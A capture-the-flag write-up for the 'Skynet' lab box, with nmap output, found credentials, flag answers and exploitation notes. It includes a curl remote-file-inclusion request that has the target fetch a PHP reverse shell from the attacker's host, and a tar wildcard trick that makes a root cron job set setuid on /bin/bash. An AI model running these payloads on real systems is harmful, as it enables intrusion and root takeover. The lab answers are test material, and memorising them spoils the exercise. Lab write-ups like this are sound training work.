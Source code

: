 # Skynet 

> Lorenzo De Simone | 17.12.2022 

------------------------------------------

## Hosts 

```bash
export IP=10.10.52.194 
```

## Enumeration 

```
$ sudo nmap -sC -sV -oN nmap/initial 10.10.52.194
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-17 07:29 CET
Nmap scan report for 10.10.52.194
Host is up (0.035s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL AUTH-RESP-CODE PIPELINING SASL CAPA TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ENABLE LOGIN-REFERRALS SASL-IR LOGINDISABLEDA0001 more ID have IDLE post-login listed capabilities Pre-login IMAP4rev1 OK LITERAL+
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 10h48m28s, deviation: 3h27m50s, median: 8h48m28s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-12-17T15:17:49
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-12-17T09:17:49-06:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.63 seconds

```

## Flags 

1. What is Miles password for his emails?
> cyborg007haloterminator

```
Samba enumeration revelead a share milsedyson => Suggesting username for Miles 
In the anonymous share there was a log file with what looked like passwords 
```

2. What is the hidden directory? 
> /45kra24zxs28v3yd

```
Found in milesdyson smb share
```

3. What is the vulnerability called when you can include a remote file for malicious purposes?
> Remote file inclusion

```
Remote file inclusion vulnerability in cuppaCMS allowed to spawn a reverse shell to target machine 

curl http://10.10.52.194/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php\?urlConfig\=http://10.8.48.50:8000/php-reverse-shell.php

```

4. What is the user flag?
> 7ce5c2109a40f958099283600a9ae807

5. What is the root flag?
>3f0372db24753accc7179a282cd6a949

```
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )



www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Since backup.sh is running every minute with a cronjob as `root` we can let the script run other code abusing the wildcard in the tar command.

```bash
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > '--checkpoint-action=exec=sh shell.sh'
echo "" > --checkpoint=1

/bin/bash -p 
```

Pasting this code in `var/wwww/html` will generate the script `shell.sh`. This script will set the `setuid` flag to /bin/bash allowing us call `/bin/bash` as the owner of the file which is `root` hence giving us a `root shell` 
